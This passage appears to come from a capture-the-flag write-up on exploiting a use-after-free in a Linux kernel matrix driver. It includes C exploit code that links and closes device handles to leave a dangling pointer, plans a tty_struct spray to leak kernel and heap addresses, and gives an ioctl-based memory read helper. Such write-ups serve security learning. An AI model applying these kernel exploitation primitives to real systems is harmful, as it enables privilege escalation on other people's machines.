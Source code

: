 ```c
  kfree(matrix);

  return 0;
}
```

So the `matrix_release` function unlinks 2 two matrixes before calling `kfree`, so we can't trigger the UAF bug now.

But what if I unlink 2 matrixes before deleting one of them?

So, here is my strategy:

+ Link matrix1 <-> matrix2
+ Link matrix2 <-> matrix3, now `matrix2->link = matrix3` and `matrix3->link = matrix2` but still have `matrix1->link = matrix2`
+ So, now if I delete `matrix2`, I can still overwite its old data via `matrix1` -> the UAF bug.

```c
    int fd1 = openDEV(); 
    int fd2 = openDEV();
    //Linking
    if(do_link(fd1,fd2) < 0)
        errExit("Do_link");
    logInfo("Link fd1 <-> fd2: done.");

    int fd3 = openDEV();
    if(do_link(fd2,fd3) < 0)
        errExit("do_link");
    
    logInfo("Link fd2 <-> fd3: done. But fd1 -> fd2 ?");
    close(fd2);
    logInfo("Closed fd2");
```

But we still need leak heap address and kernel base address.

The function `matrix_set_info` allows us to set any size for the matrix via `matrix->data = kmalloc(matrix->rows * matrix->cols, GFP_KERNEL);`

So I will take advantage of [`struct tty_struct`](https://elixir.bootlin.com/linux/v6.0.15/source/include/linux/tty.h#L195) to leak:
![image](https://github.com/robbert1978/robbert1978.github.io/assets/31349426/6307e6bb-42de-4ab9-a956-f43ca9ab0f5a)
![image](https://github.com/robbert1978/robbert1978.github.io/assets/31349426/1269e091-29d2-4240-b0bb-73abe924b131)


We can leak kernel base address via offset 0x18 and heap address via offset 0x38.

```c
int set_info(int devfd, struct matrix_info* info){
    return ioctl(devfd,IOCTL_MATRIX_SET_INFO,info);
}
int do_link(int devfd1, int devfd2){
    return ioctl(devfd1,IOCTL_MATRIX_DO_LINK,devfd2);
}
int setname(int devfd,char* name){
    return ioctl(devfd,IOCTL_MATRIX_SET_NAME,name);
}

void readMATRIX64(int devfd, uint64_t* need, off64_t offset){
    struct matrix_pos leaker = {0};
    leaker.col = 0;
    for(uint32_t i = 0 ; i < 8;  ++i ){
        leaker.row = offset+i;
        ioctl(devfd,IOCTL_MATRIX_GET_POS,&leaker);
        ((char *)need)[i] = leaker.byte;
    }
```